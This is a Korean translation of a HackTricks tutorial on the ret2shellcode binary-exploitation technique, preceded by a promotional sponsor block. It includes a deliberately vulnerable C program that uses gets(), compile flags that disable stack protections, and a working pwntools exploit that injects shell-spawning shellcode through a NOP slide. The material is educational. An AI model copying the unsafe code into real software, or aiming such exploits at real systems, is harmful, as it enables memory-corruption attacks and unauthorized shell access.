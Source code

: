 # Ret2Shellcode

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)</strong>에서 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

다른 HackTricks 지원 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

**Ret2shellcode**는 이진 해킹에서 사용되는 기술로, 공격자가 취약한 프로그램의 스택에 쉘코드를 작성한 다음 **명령어 포인터 (IP)** 또는 **확장된 명령어 포인터 (EIP)**를 이 쉘코드의 위치를 가리키도록 수정하여 실행시키는 것입니다. 이는 무단 액세스를 얻거나 대상 시스템에서 임의의 명령을 실행하는 데 사용되는 고전적인 방법입니다. 여기에는 간단한 C 예제와 **pwntools**를 사용하여 해당 취약점을 이용하는 Python 스크립트를 작성하는 방법이 포함되어 있습니다.

### C 예제: 취약한 프로그램

간단한 취약한 C 프로그램 예제부터 시작해보겠습니다:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
이 프로그램은 `gets()` 함수 사용으로 버퍼 오버플로우 취약점이 있습니다.

### 컴파일

취약한 환경을 시뮬레이션하기 위해 다양한 보호 기능을 비활성화하면서 이 프로그램을 컴파일하려면 다음 명령을 사용할 수 있습니다:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: 스택 보호 기능을 비활성화합니다.
* `-z execstack`: 스택을 실행 가능하게 만들어줍니다. 이는 스택에 저장된 셸코드를 실행하는 데 필요합니다.
* `-no-pie`: 위치 독립 실행 파일을 비활성화하여 셸코드가 위치할 메모리 주소를 예측하기 쉽게 합니다.
* `-m32`: 프로그램을 32비트 실행 파일로 컴파일합니다. 종종 exploit 개발의 간편성을 위해 사용됩니다.

### Pwntools를 사용한 Python Exploit

다음은 **pwntools**를 사용하여 **ret2shellcode** 공격을 수행하는 Python exploit을 작성하는 방법입니다:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
이 스크립트는 **NOP 슬라이드**, **쉘코드**, 그리고 **EIP**를 NOP 슬라이드를 가리키는 주소로 덮어쓰면서 쉘코드가 실행되도록 페이로드를 구성합니다.

**NOP 슬라이드** (`asm('nop')`)는 실행이 정확한 주소에 관계없이 쉘코드로 "슬라이딩"될 가능성을 높이기 위해 사용됩니다. `p32()` 인수를 조정하여 NOP 슬라이드에 착지할 오프셋을 포함한 버퍼의 시작 주소로 설정하세요.

## 보호 기능

* [**ASLR**](../common-binary-protections/aslr.md)은 실행마다 신뢰할 수 있는 주소를 위해 **비활성화**되어야 합니다. 그렇지 않으면 함수가 저장될 주소가 항상 동일하지 않아서 이길 함수가 로드된 위치를 파악하기 위해 유출이 필요할 수 있습니다.
* [**스택 카나리**](../common-binary-protections/stack-canaries.md)도 비활성화되어야 합니다. 그렇지 않으면 침해된 EIP 반환 주소가 결코 따라가지 않을 수 있습니다.
* [**NX**](../common-binary-protections/no-exec-nx.md) **스택** 보호는 스택 내부의 쉘코드 실행을 방지할 것입니다. 왜냐하면 해당 영역은 실행할 수 없기 때문입니다.

## 다른 예시

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
